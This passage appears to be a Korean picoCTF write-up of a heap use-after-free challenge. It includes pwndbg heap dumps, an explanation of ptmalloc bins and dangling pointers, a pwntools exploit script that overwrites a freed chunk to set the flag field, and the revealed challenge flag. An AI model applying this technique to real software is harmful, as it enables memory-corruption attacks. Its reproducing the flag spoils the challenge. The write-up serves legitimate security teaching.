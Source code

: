 ```yaml

pwndbg> x/10gx 0x4056a0
0x4056a0:       0x0000000000000000      0x0000000000000031
0x4056b0:       0x4141414141414141      0x0000000000000000
0x4056c0:       0x0000000000000000      0x6962000000000000
0x4056d0:       0x0000000000006f63      0x0000000000000411
0x4056e0:       0x4141414141414141      0x000000000000000a
```
위 결과는 `x`의 청크를 해제하고, 같은 크기의 메모리를 새로 할당한 뒤의 heap 정보를 출력한 결과입니다. 해제된 청크였던 `0x4056a0`가 할당되어 있고, 내부에는 `0x4141414141414141`이 덮혀진 것을 알 수 있습니다. 이 취약점으로 `flag`의 데이터를 조작할 수 있습니다.

> [!NOTE]
> 구조체 `object`의 크기는 `a`~`flag`까지 총 35바이트입니다. 새로 할당하는 메모리의 크기도 35바이트여야 `x`의 청크를 재할당할 수 있습니다.

<br />

> [!important]
> `ptmalloc`은 힙을 효율적으로 관리하기 위해 설계되었고, 해제된 청크를 관리하는 bin(fastbin, smallbin, unsorted bin 등)이 존재합니다. `free()`를 통해 청크가 해제되면 해당 크기에 맞는 bin에 들어가게 됩니다. 이후 새로운 할당 요청이 들어오면, `ptmalloc`은 우선적으로 bin에서 같거나, 비슷한 크기의 청크를 찾아 재할당합니다.
>
> 본 문제처럼 청크를 해제한 뒤, 초기화를 하지 않으면 여전히 해제된 메모리를 가리키는 `Dangling pointer`가 됩니다. 이후 같은 크기의 메모리 요청이 발생하면 해제된 청크가 재사용되며, `Dangling pointer`를 통해 접근할 경우 새로 할당된 메모리를 침범하게 됩니다. 이로 인해 UAF 취약점이 발생할 수 있으며, 내부 데이터 유출이나 메모리 변조로 이어질 수 있습니다.

<br />

```yaml
pwndbg> p/x 0x4056ce - 0x4056b0
$1 = 0x1e
```
`a`에서부터 `flag`까지의 거리는 `0x1e` 이며, `pico`를 더해서 입력하면 `check_win()`의 조건이 충족되어 FLAG가 출력될 것입니다. 위에서 얻은 정보로 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"

p = remote("tethys.picoctf.net", 61851)

def create(size, data):
    p.sendlineafter(b":", b"2")
    p.sendlineafter(b":", size)
    p.sendlineafter(b":", data)

def free():
    p.sendlineafter(b":", b"5")

def win():
    p.sendlineafter(b":", b"4")


free()
create(b"35", b"A"*0x1e+b"pico")
win()

p.interactive()
```
```bash
$ python3 test.py
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_e8938a97}
$
```
